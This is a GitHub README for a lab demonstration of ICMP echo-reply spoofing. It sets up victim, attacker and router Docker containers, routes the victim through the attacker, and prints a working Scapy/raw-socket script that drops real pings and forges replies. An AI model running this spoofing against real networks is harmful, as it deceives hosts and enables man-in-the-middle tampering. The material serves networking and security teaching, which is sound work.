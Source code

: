 # ICMP Ping Spoof Attack Demo

This repository demonstrates a simple ICMP Echo Request spoofing attack using Docker containers and a custom Python script (`spoof2.py`).  The attacker is positioned as a man-in-the-middle (MITM) gateway between a victim and a router, intercepting and forging ICMP replies.

---

## Table of Contents

1. [Network Topology](#network-topology)
2. [Prerequisites](#prerequisites)
3. [Setup](#setup)

   * [1. Create Docker Networks](#1-create-docker-networks)
   * [2. Launch Containers](#2-launch-containers)
   * [3. Install Dependencies](#3-install-dependencies)
   * [4. Configure Routing](#4-configure-routing)
   * [5. Enable IP Forwarding](#5-enable-ip-forwarding)
   * [6. Optional: Drop Real ICMP](#6-optional-drop-real-icmp)
4. [Attack Script (`spoof2.py`)](#attack-script-spoof2py)
5. [Demonstration](#demonstration)
6. [Cleanup](#cleanup)

---

## Network Topology

```
┌────────┐      net_vict_att        ┌──────────┐      net_att_rout       ┌────────┐
│ Victim │ 20.10.0.2 ─────────────►  │ Attacker │ 20.20.0.3 ─────────► │ Router │
│ victim2│                          │ attacker2│ 20.10.0.3         20.20.0.2 │router2 │
└────────┘                          └──────────┘                      └────────┘
```

* **victim2**: 20.10.0.2/24 on `net_vict_att`
* **attacker2**: dual-homed

  * `eth0` on `net_vict_att` with IP 20.10.0.3
  * `eth1` on `net_att_rout` with IP 20.20.0.3
* **router2**: 20.20.0.2/24 on `net_att_rout`

All traffic from `victim2` to `router2` is forced through `attacker2` for interception.

---

## Prerequisites

* Docker
* Python 3
* `pip3` (for Scapy)

---

## Setup

### 1. Create Docker Networks

```bash
sudo docker network create --driver=bridge --subnet=20.10.0.0/24 net_vict_att
sudo docker network create --driver=bridge --subnet=20.20.0.0/24 net_att_rout
```

### 2. Launch Containers

```bash
# Victim
sudo docker run -d --name victim2 \
  --cap-add NET_ADMIN \
  --network net_vict_att --ip 20.10.0.2 \
  ubuntu:22.04 sleep infinity

# Router
sudo docker run -d --name router2 \
  --cap-add NET_ADMIN \
  --network net_att_rout --ip 20.20.0.2 \
  ubuntu:22.04 sleep infinity

# Attacker (dual-homed)
sudo docker run -d --name attacker2 \
  --cap-add NET_ADMIN --cap-add NET_RAW \
  --network net_vict_att --ip 20.10.0.3 \
  ubuntu:22.04 sleep infinity
sudo docker network connect --ip 20.20.0.3 net_att_rout attacker2
```

### 3. Install Dependencies

```bash
# Victim needs ping + ip
sudo docker exec victim2 bash -lc "apt update && apt install -y iproute2 iputils-ping"

# Router needs ping, ip, tcpdump
sudo docker exec router2 bash -lc "apt update && apt install -y iproute2 iputils-ping tcpdump"

# Attacker needs forwarding, iptables, Python, Scapy, tcpdump
sudo docker exec attacker2 bash -lc "apt update && apt install -y iproute2 iptables python3-pip libpcap-dev tcpdump && pip3 install scapy"
```

### 4. Configure Routing

```bash
# Victim → Attacker gateway
sudo docker exec victim2 bash -lc "ip route del default && ip route add default via 20.10.0.3 dev eth0"

# Router → Attacker gateway
sudo docker exec router2 bash -lc "ip route del default && ip route add default via 20.20.0.3 dev eth0"
```

### 5. Enable IP Forwarding

```bash
sudo docker exec attacker2 bash -lc "sysctl -w net.ipv4.ip_forward=1"
```

### 6. Optional: Drop Real ICMP

To ensure only the spoofed replies reach the victim, drop real pings in the attacker:

```bash
sudo docker exec attacker2 bash -lc "iptables -I FORWARD -s 20.10.0.2 -d 20.20.0.2 -p icmp --icmp-type echo-request -j DROP"
```

---

## Attack Script (`spoof2.py`)

Place the following in `spoof2.py` and copy to `/root/` of attacker2.  Run with `python3 /root/spoof2.py`.

```python
#!/usr/bin/env python3
import atexit, subprocess, socket, struct
from scapy.all import sniff, IP, ICMP, conf

# Configuration
ROUTER_IP = "20.20.0.2"
VICTIM_IP = "20.10.0.2"
IFACE     = "eth0"

# Insert iptables DROP rule on startup
DROP_RULE = [
    "iptables", "-I", "FORWARD",
    "-s", VICTIM_IP,
    "-d", ROUTER_IP,
    "-p", "icmp", "--icmp-type", "echo-request",
    "-j", "DROP"
]

def cleanup():
    subprocess.run(["iptables", "-D", "FORWARD"] + DROP_RULE[1:], check=False)
    print("Removed DROP rule.")
atexit.register(cleanup)

def setup():
    subprocess.run(DROP_RULE, check=True)
    print("Inserted DROP rule.")

# Checksum helper
def checksum(data: bytes) -> int:
    if len(data) % 2: data += b'\x00'
    s = sum(struct.unpack(f'!{len(data)//2}H', data))
    s = (s>>16) + (s & 0xffff); s += s>>16
    return ~s & 0xffff

# Packet handler
def handle_request(pkt):
    if IP in pkt and ICMP in pkt and pkt[IP].dst == ROUTER_IP and pkt[ICMP].type == 8:
        ic = pkt[ICMP]
        print(f"Sniffed Echo Request id={ic.id}, seq={ic.seq}")
        # Build IP header
        ip_hdr = struct.pack("!BBHHHBBH4s4s",
            (4<<4)|5, 0,
            20+8+len(ic.payload), 0,0,64,
            socket.IPPROTO_ICMP, 0,
            socket.inet_aton(ROUTER_IP),
            socket.inet_aton(VICTIM_IP)
        )
        ip_hdr = ip_hdr[:10] + struct.pack("!H", checksum(ip_hdr)) + ip_hdr[12:]
        # Build ICMP header
        payload = bytes(ic.payload)
        icmp_pfx = struct.pack("!BBHHH",0,0,0,ic.id,ic.seq)
        icmp_ck = checksum(icmp_pfx+payload)
        icmp_hdr = struct.pack("!BBHHH",0,0,icmp_ck,ic.id,ic.seq)
        packet = ip_hdr + icmp_hdr + payload
        # Send forged reply
        s = socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_RAW)
        s.setsockopt(socket.IPPROTO_IP, socket.IP_HDRINCL,1)
        s.sendto(packet, (VICTIM_IP,0))
        print(f"Sent spoofed Echo Reply to {VICTIM_IP}")

if __name__ == "__main__":
    conf.use_pcap = True
    setup()
    print(f"Listening for ICMP to {ROUTER_IP} on {IFACE}…")
    sniff(iface=IFACE, filter=f"icmp and dst {ROUTER_IP}", prn=handle_request)
```

---

## Demonstration

1. **Baseline (no attack)**

   ```bash
   sudo docker exec router2 tcpdump -n icmp
   sudo docker exec victim2 ping -c4 20.20.0.2
   ```

   * Router2 sees Echo-Requests and replies normally.

2. **Start attack**

   ```bash
   sudo docker exec attacker2 python3 /root/spoof2.py
   ```

3. **Spoofed ping**

   ```bash
   sudo docker exec victim2 ping -c4 20.20.0.2
   ```

   * Victim sees replies (`ttl=64` by default).
   * Router2’s tcpdump shows **no** Echo-Requests.

4. **Proof**

   * Modify TTL in `spoof2.py` to `200` and rerun for TTL fingerprint:

     ```diff
       # in ip_hdr pack: replace 64 with 200
     ```
   * Victim’s ping reply lines now show `ttl=200`, proving they’re forged.

---

## Cleanup

```bash
sudo docker rm -f victim2 attacker2 router2
sudo docker network rm net_vict_att net_att_rout
```

---

*End of README.md*
